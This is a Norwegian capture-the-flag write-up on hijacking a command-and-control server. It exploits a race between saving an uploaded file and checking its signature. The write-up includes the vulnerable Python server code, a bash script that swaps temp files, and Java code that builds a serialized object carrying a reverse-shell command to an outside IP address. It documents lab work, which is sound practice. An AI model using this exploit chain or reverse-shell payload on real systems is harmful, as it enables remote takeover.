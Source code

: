 
## Writeup av hvordan jeg tok over C2-infrastrukturen ved å injisere et ondsinnet javaobjekt.

Jeg deltok i Etterretningstjenestens CTF høsten 2022, og denne writeupen tar for seg en av oppgavene.


Følgende kodesnutt viser litt av serverkoden for C2-rammeverket

```python
@app.route(PREFIX + "<client_id>/commands", methods=["POST"])
def add_command(client_id):
    upload_file = request.files.get("file", None)
    if not upload_file:
        logger.warning("missing file argument")
        return Response("", 400)

    with tempfile.NamedTemporaryFile(dir=WORKSPACE) as f:
        command_file = f.name
        upload_file.save(command_file)            # <------------------- her er sårbarheten
        print(f"saved file as {f.name}")
        try:
            obj = Command(f)      # <-------- filen blir deserialisert og verifiserer 
            obj.verify()          #           bla. at filen inneholder riktig signatur

            logger.info(f"registering new command for client {client_id}")
            add_command_to_db(client_id, obj.run_after, command_file)       # <--------- lagrer kommandoen i database 
            return Response(f"OK\n", 200)                                   #            som klientene sjekker i ny og ne

        except:
            logger.exception("invalid command or signature")
            return Response("", 400)
```

C2-rammerverket var satt opp slik at angriperen kunne sende en javaserialisert kommando (via POST-request) til klienter tilnyttet C2-serveren. Dersom kommandoen hadde riktig signatur ble den lagret i en database. Denne databasen fungerte som et postkontor hvor alle klienter koblet seg på for å se om det var lagret nye kommandoer til dem.

Jeg hadde tilgang til maskinen som kjørte denne C2-serveren, og målet mitt var å få tilgang til en eller flere klienter. Jeg prøvde å lage ondsinnede javaserialiserte kommandoer og sendte disse direkte til en av klientene, men dette gikk ikke fordi jeg ikke hadde riktig signatur.

Etter å ha studert server-koden fikk jeg øye på at kommandoen ble først lagret som en tmp-fil før den ble deserialisert og signatur sjekket. Kanskje kunne jeg utnytte dette ved å bytte ut en legitim kommando med min egen.

Siden tmp-filen ble slettet med en gang kommandoen var blitt lagret i databasen måtte jeg skrive et enkelt bash-script som byttet ut den legitime kommandoen med min egen:

```bash
cd .../   # Mappen hvor server lagrer både log-filer og kommando-fil i tmp-format
		      # tmp-filen blir slettet ganske fort
while true;
do
	var=$(ls | wc -l)   # Lagre antall filer i mappen i `var` (.log osv tas ikke med, derfor `ls` for å ikke telle med skjulte filer)
	if [ $var -eq 1 ]   # Hvis `var` == 1, da har server lagret tmp-filen
	then
		for f in `ls`
		do 
			echo "- $f created\n- Replacing with malicious object"
			sleep .001    # Sleep slik at koden får tid til å gjennomføre signatur-sjekk på den legitime kommando-filen
			base=$(basename -- "$f")    # Lagre tmp-navnet i variabel `base`
			mv -v $base ../   # Flytt den legitime kommando-filen bort
			cp ../evil_config_deadbeef $base   # Kopier ond kommando-fil til det samme tmp-navnet som den legitime filen hadde
			break   # Nå vil databasen ane fred og ingen fare og lagre den onde kommando-filen
		done
	fi
done
```
<br>

Kode for å lage det ondsinnede javaobjektet:

```java
import commands.Command;
import commands.Execute;
import utils.Config;
import java.io.*;
import java.time.Instant;

public class evilSerial {

    public static void writeObject(ObjectOutputStream var1) throws IOException {

        Config cfg = new Config();
        Command exec = new Execute();

        exec.recipient = "DEADBEEFDEADBEEF";
        exec.runAfter = Instant.now();
        exec.value = "exec bash -i &>/dev/tcp/10.1.194.171/1337 <&1";
        cfg.id = "DEADBEEFDEADBEEF";
        cfg.serverURL = "http://shady-aggregator.utl/f52e6101/";
        cfg.sleepDuration = 15;
        cfg.pendingCommands.add(exec);
        var1.writeObject(cfg);
}

    public static void main(String[] args) throws IOException {

        FileOutputStream fos = new FileOutputStream("evil_config_deadbeef");
        ObjectOutputStream os = new ObjectOutputStream(fos);
        writeObject(os);
        os.close();
    }

}
```
